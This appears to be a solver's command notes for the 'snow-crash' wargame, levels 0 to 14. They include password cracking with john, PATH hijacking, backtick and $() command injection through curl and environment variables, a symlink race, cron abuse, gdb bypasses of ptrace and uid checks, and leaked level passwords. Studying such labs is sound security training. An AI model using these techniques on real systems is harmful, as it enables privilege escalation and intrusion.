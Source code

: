 # snow-crash

# Levels:

## 0.
getent passwd
ll -R / 2>dev/null | grep flag00
find / -user flag00 2>/dev/null

cat /usr/sbin/john
su flag00
getflag
su level01

## 1.
find / -name 'passwd' 2>/dev/null
cat /etc/passwd | grep flag01
scp -P 5000 level00@192.168.56.1:/../../../etc/passwd . # scp - secure copy
.\Downloads\john\run\john.exe --show .\passwd

## 2.
scp -P 5000 scp://level02@localhost/level02.pcap C:/Users/Vlad/snow-crash
chmod 777 level02.pcap 
# open Wireshark -> any TCP packet -> follow -> TCP Stream : ft_waNDReL0L
tcpdump -n -r level02.pcap -Xq

## 3.
ll # level03 can execute other commands with high privelage
ltrace ./level03
env # the list of environmental variables
echo getflag > /tmp/echo && chmod +x /tmp/echo # aliasing getflag
export PATH=/tmp:$PATH # start from the directory with alias
./level03

## 4.
netstat -tl
curl localhost:4747?x=\`getflag\`
curl 'localhost:4747?x=`getflag`'

## 5.
find / -name 'level05'  2>/dev/null
env

cat /var/mail/level05 # open crontab file
cat $MAIL

cat  /usr/sbin/openarenaserver
echo 'getflag > /tmp/flag' > /opt/openarenaserver/exploit && sleep 121 && cat /tmp/flag 
echo 'getflag > /tmp/flag' > /opt/openarenaserver/exploit && cat /tmp/flag 

## 6.
echo '[x {${exec(getflag)}}]' > /tmp/boo ; ./level06 /tmp/boo
echo '[x ${`getflag`}]' > /tmp/boo ; ./level06 /tmp/boo

## 7.
ltrace ./level07
echo $LOGNAME
export LOGNAME=\`getflag\` ; ./level07
export LOGNAME='$(getflag)' ; ./level07

## 8.
ltrace ./level08 token
ln -s token my_tok && ./level08 my_tok
su flag08 quif5eloekouj29ke0vouxean
getflag

## 9.
scp -P 5000 scp://level09@localhost/token C:/Users/Vlad/snow-crash

su flag09 F3iji1ju5yuevaus41q1afiuq
getflag

## 10.
strings ./level10 | grep 'Connecting' # shows the port
while true; do ln -fs ~/level10 /tmp/fake; ln -fs ~/token /tmp/fake; done # alternation of links between two files
while true; do ./level10 /tmp/fake 127.0.0.1; done # using binary
nc -l 6969 

## 11.
cat level11.lua
nc -zv localhost 5151 # scan if port is open, not necessary, -z - port scanning
nc localhost 5151 # create TCP connection
; getflag > /tmp/f11 # send in password

$(getflag) > /tmp/f11 # send in password
cat /tmp/f11

## 12.
echo "getflag > /tmp/token" > /tmp/XX && chmod +x /tmp/XX
curl  http://localhost:4646?x='$(/*/XX)'
#curl http://localhost:4646?x=\`/*/XX\`

cat /tmp/token

## 13.
./ltrace ./level13
id # get your id
objdump -d level13

gdb ./level13
b getuid
r # run

set $eax=4242 # or 0x1092 - change register
c # continue

#or
jump 0x80485cb

## 14.
cat /etc/passwd # get the number of the level
id

gdb getflag
disass main

b *(main + 72) # overcome prtace defence
b *(main + 444) # put correct ID in eax
r
info register $eax # -1
set $eax=0
n # next step
set $eax=3014
c